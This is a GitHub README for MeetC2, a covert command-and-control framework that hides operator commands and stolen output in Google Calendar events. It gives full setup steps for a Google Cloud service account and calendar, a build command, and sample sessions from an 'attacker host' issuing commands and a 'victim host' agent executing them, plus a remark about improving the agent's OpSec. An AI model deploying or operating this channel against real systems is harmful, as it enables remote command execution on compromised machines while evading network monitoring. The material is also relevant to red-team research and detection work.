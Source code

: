 ## MeetC2

A serverless command & control (C2) framework that leverages Google Calendar APIs, as a covert communication channel between operators and a compromised system.

### Overview

MeetC2 a cross-platfrom (macOS/Linux), that demonstrates how legitimate cloud services can be abused for adversarial operations. By using Google Calendar APIs, the framework creates a hidden communication channel that blends in with normal business traffic.

Domain's utlized here are "`oauth2.googleapis.com`" & "`www.googleapis.com`". Once authenticated, the agent enters a polling loop, sending GET requests every 30 seconds to "`www.googleapis.com/calendar/v3/calendars/{calendarId}/events`" to check for new calendar events containing commands. 

When the organizer wants to issue a new command they can `POST` a new event to the same Calendar API endpoint via "organizer" agent with the command embedded in the event's summary field, like "Meeting from nobody:". The "guest" agent identifies these command events during its regular polling which extracts and executes the command locally, then updates the same event via a `PUT` request to include the command output within the `[OUTPUT] [/OUTPUT]` parameter in the description field.

<p align="center">
<img alt="image" src="https://github.com/user-attachments/assets/c9dd3c71-b5e8-4170-a526-a08461c064fc" width="500"/>
</p>

### Google Calendar Setup

- Navigate to the URL [Google cloud console](https://console.cloud.google.com/?hl=en), sign in with your Google account. Select a project or create a new project.
- Navigate to "APIs & Services" → Click "Library", in the search box, look for `Google Calendar API` and click "ENABLED", will take 20-30 seconds to get it enabled in your project.
- Post this navigate to "APIs & Services" → "Credentials" and click "+ CREATE CREDENTIALS" at the top choose "Service account" fill in the required details i.e., Service account name: `calendar-invite`, Description: `Syncs calendar events` and continue. Skip the optional role/users and click "DONE".
- Now check your service account lists you should have a email like "`calendar-invite@your-project.iam.gserviceaccount.com`". Go to the "KEYS" section "ADD KEY" → "Create new key", choose the "JSON" format and download the "KEY". Rename the downloaded JSON file to `credentials.json` for later use.
- Navigate to the URL "`https://calendar.google.com`", on the left side find "Other calendars" → Click the "+" click on create new calender fill in the name/description. Post that, click on the 3 dots next to it → "Settings and sharing". Scroll down to "Integrate calendar", check for "Calendar ID" it should look like "`abc123xyz@group.calendar.google.com`".
- Final steps, under calendar settings, find "Share with specific people" click on "+ Add people", add the service account email from step 4 above (the one ending in `@your-project.iam.gserviceaccount.com`). Change the permission to "Make changes to events" and click "Send", and you are all set...

### Command Line

<b>Compile:</b>

```
./build-all.sh <credentials.json> <calendar_id>
```

<b>Attacker host:</b>
```
bash-3.2$ ./organizer credentials.json [REDACTED]@group.calendar.google.com
MeetC2 Organizer
Commands:
  exec <cmd>         - Execute on all hosts
  exec @host:<cmd>   - Execute on specific host
  exec @*:<cmd>      - Execute on all hosts (explicit)
  list               - List recent commands
  get <event_id>     - Get command output
  clear              - Clear executed events
  exit               - Exit organizer
----------------------------------------
> exec whoami
Command created for all hosts: qfj4tt8a4uoi8p7cd3b8t31337
> 
>
```

<b>Victim host:</b>

```
bash-3.2$ ./guest-darwin-arm64 
16:08:04 MeetC2 Guest started on dhiraj-mishra-[REDACTED]
16:08:04 Calendar ID: [REDACTED]@group.calendar.google.com
16:08:04 Polling every 10 seconds...
16:08:15 Executing command: whoami
16:08:16 Successfully updated event with output
```

<b>OpSec</b>: While this is functional, I know there are improvements in OpSec specifically for the "guest" binary.

<b>Acknowledgements</b>: This project was inspired by [GC2-sheet](https://github.com/looCiprian/GC2-sheet) author [looCiprian](https://github.com/looCiprian). Hence, special thanks to him!
